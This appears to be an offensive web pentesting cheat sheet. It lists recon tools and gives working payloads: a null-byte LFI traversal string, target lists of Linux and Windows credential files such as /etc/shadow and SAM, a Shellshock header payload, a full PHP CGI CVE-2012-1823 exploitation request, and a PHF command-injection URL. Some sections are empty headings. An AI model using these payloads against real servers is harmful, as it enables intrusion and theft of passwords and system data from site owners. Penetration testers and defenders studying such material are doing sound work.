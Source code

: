 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI



## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```

```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
